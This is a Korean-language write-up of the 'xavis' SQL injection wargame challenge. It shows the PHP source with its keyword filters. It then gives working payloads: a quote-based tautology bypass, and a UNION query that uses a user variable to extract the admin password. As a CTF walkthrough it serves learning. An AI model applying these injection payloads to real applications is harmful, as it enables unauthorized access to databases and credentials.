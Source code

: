 # xavis

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 

  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```

`blind SQLI`를 진행해서 `admin`계정의 `password`를 알아내는 것 같다.

취약점을 찾아보니 이전에 풀던 문제들처럼 `'`으로 우회가 가능했다.

> ?pw=%27\|\|%271%27=%271

분명 문제를 풀기 위한 다른 키워드가 있을 것이다.

그래서 전에 쓰던 코드들을 이용하여 찾아봐도 아무리 값이 안나온다. `0-9a-z`의 범위에 없는것이다.

그래서 확장 아스키코드를 쓰거나, 유니코드를 쓰거나 여러 방법들을 총동원하여 찾아야하지만

`preg_match`에 `union`이 포함이 안되어있네요

`union`키워드를 이용하여, 서브쿼리에 변수를 이용해 값을 넣고 출력할 예정이다.

> ?pw=%27\|\|%20\(select%20@a:=pw%20where%20id=%27admin%27\)%20union%20select%20@a%23 select id from prob\_xavis where id='admin' and pw=''\|\| \(select @a:=pw where id='admin'\) union select @a\#'

이런 코드가 나오고 `pw`가 같이 출력된다. 이를 이용해 Clear!


